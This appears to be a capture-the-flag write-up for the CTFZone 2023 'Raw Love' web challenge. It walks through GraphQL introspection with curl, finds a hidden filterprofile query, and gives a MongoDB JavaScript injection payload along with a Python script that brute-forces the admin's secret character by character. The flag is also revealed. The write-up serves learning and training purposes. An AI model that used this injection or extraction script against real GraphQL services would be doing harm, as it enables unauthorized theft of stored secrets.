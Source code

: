 https://cr3.mov/posts/ctfzone23-web-raw-love/

#graphql #web #ctfzone #injection #graphqlinjection
#### Description

Very soon we will update the functionality, we are already working on its security, so that no one would steal my secret. In the meantime, come have fun!

- Admin

#### Code inspection

Here’s the most important code of our challenge.

`/static/js/FillForm.jsx`

```
const response = await axios.post('/api', {
  query: `
    mutation ($description: String, $contact: String) {
      fill_form(description: $description, contact: $contact) {
        status
      }
    }
  `,
  variables: { description, contact }
},{
  headers: {
    Authorization: `Bearer ${token}`
  },
});
```

Since we have found GraphQL endpoint, let’s take a look at its schema.

```
curl -X POST -d '{
    "query": "{__schema{types{name,fields{name}}}}"
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```
{
    "name": "Query",
    "fields": [
        {
            "name": "profile"
        },
        {
            "name": "filterprofile"
        },
        {
            "name": "like"
        },
        {
            "name": "myprofile"
        }
    ]
}
```

What is `filterprofile` query? It is not used inside sources. Let’s get its arguments.

```
curl -X POST -d '{
    "query": "fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef }}fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue}fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }}query IntrospectionQuery { __schema { queryType { name } mutationType { name } types { ...FullType } directives { name description locations args { ...InputValue } } }}"
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```
{
    "name": "filterprofile",
    "description": null,
    "args": [
        {
            "name": "description",
            "description": null,
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            },
            "defaultValue": null
        }
    ],
    "type": {
        "kind": "LIST",
        "name": null,
        "ofType": {
            "kind": "OBJECT",
            "name": "Profile",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
}
```

Let’s test this request with the `description` argument equal to the administrator’s description.

```
curl -X POST -d '{"query":"query { filterprofile(description:\"Administrator\") { username } }"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```
{
    "data": {
        "filterprofile": [
          {
            "user": "Admin"
          }
        ]
    }
}
```

So it returns users by their description. Let’s try passing the character `'`.

```
{
    "data": {
        "filterprofile": null
    }
}
```

We found the injection! The server appears to be using MongoDB, so we need a payload that looks something like this:

```
;return (this.secret.substr(0, 8) == 'ctfzone{'; var _ = '
```

#### Solver code

```
import requests

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag ="ctfzone{"
while True:
    for char in charset:
        temp_flag = flag + char
        print(f'trying {temp_flag}')
        data = requests.post("https://raw-love.ctfz.one/api/", json={
"query": """
query { 
  filterprofile(description:\"%s\") { 
    username 
    description 
    contact 
    id
    photo 
  } 
}
""" % f"Administrator'; return (this.secret.substr(0, {len(temp_flag)}) == '{temp_flag}'); var abcds='1"
          }, headers={
              "Authorization": "Bearer [REDACTED]",
              "Content-Type": "application/json",
          })
        
        if '"username":"Admin",' in data.text:
            flag = flag + char 
            print(flag)
```

#### Flag

`ctfzone{rM7_E_EFBBxkkli4Tk9a}`